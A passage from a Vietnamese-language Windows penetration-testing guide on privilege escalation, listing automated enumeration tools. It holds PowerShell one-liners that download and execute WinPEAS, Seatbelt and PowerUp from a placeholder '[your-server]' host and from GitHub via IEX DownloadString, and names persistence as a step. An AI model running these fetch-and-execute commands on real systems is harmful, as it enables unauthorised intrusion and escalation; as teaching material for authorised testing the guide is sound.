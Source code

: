 #### Sử dụng công cụ tự động hóa

##### WinPEAS
```powershell
## Tải và thực thi WinPEAS
Invoke-WebRequest -Uri "http://[your-server]/winPEAS.exe" -OutFile "C:\Users\Public\winPEAS.exe"
C:\Users\Public\winPEAS.exe > C:\Users\Public\winpeas_results.txt
```

##### Seatbelt
```powershell
## Tải và thực thi Seatbelt
Invoke-WebRequest -Uri "http://[your-server]/Seatbelt.exe" -OutFile "C:\Users\Public\Seatbelt.exe"
C:\Users\Public\Seatbelt.exe -group=all > C:\Users\Public\seatbelt_results.txt
```

##### PowerSploit/PowerUp
```powershell
## Tải và thực thi PowerUp
IEX (New-Object Net.WebClient).DownloadString('http://[your-server]/PowerUp.ps1')
Invoke-AllChecks | Out-File -FilePath C:\Users\Public\powerup_results.txt
```


## 4.3. Privilege Escalation Techniques

Privilege escalation (leo thang đặc quyền) là quá trình chuyển từ quyền hạn thấp lên quyền cao hơn (thường là Administrator/SYSTEM) trên hệ thống Windows. Đây là một bước quan trọng trong quá trình kiểm thử thâm nhập sau khi đã có được quyền truy cập ban đầu vào hệ thống.

### Quy trình leo thang đặc quyền

Việc leo thang đặc quyền trên Windows thường tuân theo quy trình sau:

1. **Enumeration**: Thu thập thông tin hệ thống
2. **Identification**: Xác định các lỗ hổng tiềm năng
3. **Exploitation**: Khai thác lỗ hổng được phát hiện
4. **Persistence**: Duy trì quyền truy cập đã được nâng cao

### Công cụ tự động hóa quá trình kiểm tra

Trước khi đi sâu vào từng kỹ thuật cụ thể, hãy làm quen với các công cụ tự động hóa giúp kiểm tra nhanh các lỗ hổng leo thang đặc quyền:

#### PowerShell Empire / PowerUp
```powershell
## Tải và thực thi PowerUp
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
Invoke-AllChecks
```

#### WinPEAS
```cmd
## Chạy WinPEAS để kiểm tra toàn diện
winPEASx64.exe quiet cmd fast > winpeas_results.txt
```
